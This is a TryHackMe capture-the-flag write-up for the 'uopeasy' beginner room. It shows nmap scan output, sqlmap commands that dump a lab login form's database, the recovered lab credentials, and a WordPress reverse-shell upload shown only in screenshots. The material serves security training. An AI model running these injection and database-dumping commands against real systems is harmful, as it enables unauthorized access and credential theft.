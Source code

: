 ```yaml
---
title: "uopeasy - TryHackMe"
author: Ludovic COULON
date: 2020-07-18
hero: ./images/hero.jpg
excerpt: "Writeup for the uopeasy university of Portsmouth's beginner room"
---
```


[TryHackMe | uopeasy](https://tryhackme.com/room/uopeasy)

University of Portsmouth's beginner room.

In this set of tasks you will learn the following:

- Basic SQL injection
- Use of reconnaissance tool
- nmap
- WordPress RCE and reverse shells
- Cracking the hash (John the ripper / hashcat)
- Possibly Nikto
- Burp Suite or dirbuster

The main goal here is to learn as much as possible. Make sure you are connected to our network using your [OpenVPN configuration file](https://tryhackme.com/access).

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.180.236
```

```bash
80/tcp   open  http     syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).

443/tcp  open  ssl/http syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-02-17T03:30:05
| Not valid after:  2025-02-14T03:30:05
| MD5:   ebd4 a980 6e51 1b13 769e d4b1 28f9 71dd
| SHA-1: 6297 03e9 f83b 06e7 d50d 3f4b 5bae 38c9 7665 cc64
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQDg5heFLm8t8jANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwMjE3MDMzMDA1WhcNMjUwMjE0MDMzMDA1WjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANFjfgmsBCGKWfdqCYZnY2mKvtUnYFtenVjtqdReduE12yavSQZuWAi2
| jIpCUMwG7RG3QAwyzCoMWAzF/tZimI8uNL8G9m84l/wQAbTPMPJTgJXpwY0/9IRc
| hdqtpFoVS251qA9AvPeqMv/hV+rKVAkYcONB6Q8Or8S6ifkEBAZbAgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEAQ3Kt0nVDLMkAv9/k1bt6KaM06cvTtiekgu0ugxA0TNXC
| FNIBqu/Fasog43FRLuUtAtNCNMqI5QAAVPatQPk1QmVoE+IxbvxldrKykZk9oXkj
| 5rbE43BAkxyiMvuNsZh7W2Lzx14tlA84c8B4Y1S0CqoVLpaJaCQ5MtVMSya3wAM=
|_-----END CERTIFICATE-----

8080/tcp open  http     syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

![https://imgur.com/9SK08g2.png](https://imgur.com/9SK08g2.png)

![https://imgur.com/G7Wb80W.png](https://imgur.com/G7Wb80W.png)

### #1 Deploy the machine and connect to **our network.**

```bash
No awnser needed
```

### #2 Do some basic reconnaissance on the website. What pages can you view? What ports are open? What can you access?

```bash
No awnser needed
```

### #3 You should have found some additional pages on different ports. What service does the site most likely use for this page?

```bash
mysql
```

### #4 Using the fact that this site has this service running, how can you exploit it? Do not use SQLMap yet..

```bash
Since this is some php room let's say that is SQLi (SQL Injection)
```

```bash
SQLi
```

### #5 Try and return 1 on the page by entering certain characters into the form.

```bash
No awnser needed
```

### #6 Using SQL injection, can you extract the username and password for this form? You may need the help of Burp's intruder function OR SQLMap.

```bash
No awnser needed
```

### #7 What was the username?

Dump the database using sqlmap

```bash
➜  ~ sqlmap -u http://10.10.180.236/login.php --forms -dbs
```

![https://imgur.com/9yukJFN.png](https://imgur.com/9yukJFN.png)

![https://imgur.com/lu0ABlM.png](https://imgur.com/lu0ABlM.png)

Let's see the content of the wordpress8080 table

```bash
➜  ~ sqlmap -u http://10.10.180.236/login.php –forms –dbs –dump-all -D wordpress8080
```

![https://imgur.com/ucY2JNZ.png](https://imgur.com/ucY2JNZ.png)

Credentials retrieved

```bash
Username : admin
Password : SuperSecretPassword
```

### #8 What was the password?

```bash
SuperSecretPassword
```

### #9 Now you have these credentials, where else on the site can you go? Using the credentials you have and another part of the site, login and try to execute remote commands on the server.

```bash
No awnser needed
```

### #10 Can you get a reverse shell back to your local machine?

```bash
No awnser needed
```

### #11 Can you crack anyones password? Using the very popular rockyou.txt

```bash
No awnser needed
```

### #12 What is the final cracked hash password for the user "user"?

Let's upload the reverse shell on the wordpress blog

![https://imgur.com/z6QQkJF.png](https://imgur.com/z6QQkJF.png)

![https://imgur.com/AIcHLNM.png](https://imgur.com/AIcHLNM.png)

![https://imgur.com/9B1RXrg.png](https://imgur.com/9B1RXrg.png)

Nice we have the creds for the database let's try them 😇

![https://imgur.com/csDngND.png](https://imgur.com/csDngND.png)

![https://imgur.com/DElAc2V.png](https://imgur.com/DElAc2V.png)

```bash
SuperSecretPassword
```


